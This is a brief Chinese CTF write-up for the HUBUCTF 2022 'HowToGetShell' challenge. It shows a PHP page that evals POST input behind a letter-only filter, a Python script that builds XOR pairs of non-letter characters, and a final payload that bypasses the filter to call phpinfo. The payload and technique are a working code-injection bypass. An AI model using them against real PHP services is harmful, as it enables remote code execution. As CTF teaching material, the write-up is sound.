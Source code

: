 #RCE 
```php
<?php
show_source(__FILE__);
$mess = $_POST['mess'];
if (preg_match("/[a-zA-Z]/", $mess)) {
    die("invalid input!");
}
eval($mess);
```

这个题取反不知为何我这里没反应

#### 异或
```php
valid = "1234567890!@$%^*(){}[];\'\",.<>/?-=_`~ "
 
answer = "phpinfo"
 
tmp1,tmp2 = '',''
for c in answer:
    for i in valid:
        for j in valid:
            if (ord(i)^ord(j) == ord(c)):
                tmp1 += i
                tmp2 += j
                break
        else:
            continue
        break
print(tmp1,tmp2)
// mess=$_="0302181"^"@[@[_^^";$_();
```
参考

[[HUBUCTF 2022 新生赛]_S@Kura的博客-CSDN博客](https://blog.csdn.net/zhhhb1005/article/details/127035837)

[[HUBUCTF 2022 新生赛]HowToGetShell题解_dockerere的博客-CSDN博客](https://blog.csdn.net/qq_64222098/article/details/132162902)
